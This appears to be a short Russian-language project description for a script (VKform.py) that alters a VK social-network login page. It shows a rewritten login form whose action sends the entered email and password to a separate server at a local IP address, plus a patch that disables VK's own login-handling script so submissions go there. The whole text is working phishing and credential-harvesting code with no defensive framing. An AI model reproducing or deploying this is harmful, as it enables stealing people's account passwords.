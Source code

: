 То, что должно получиться во втором типе форм, а также удаление определённого скрипта, для достижения поставленной цели.
(Замену делает скрипт на python VKform.py)


Код формы:

	  <form method="POST" name="login" id="quick_login_form" action="http://192.168.0.4/1/2.php">
	    <div class="label">Phone or email</div>
	    <div class="labeled"><input type="text" name="email" class="text" id="quick_email" /></div>
	    <div class="label">Password</div>
	    <div class="labeled"><input type="password" name="pass" class="text" id="quick_pass" onkeyup="toggle('quick_expire', !!this.value);toggle('quick_forgot', !this.value)" /></div>
	    <input type="submit" class="flat_button button_wide button_big" value="Log in" />
	&nbsp<br>
	    <input type="submit" class="flat_button button_wide button_big" value="Sign up" />
	  </form>

Код скрипта для замены:
	var qinit = function() {
	  setTimeout(function() {
	    ql.insertBefore(ce('div', {innerHTML: '<iframe class="upload_frame" id="quick_login_frame" name="quick_login_frame"></iframe>'}), qf);
	    qf.target = 'quick_login_frame';
	  }, 1);
	}

Результат замены:
var qinit = function() {
  return;
}
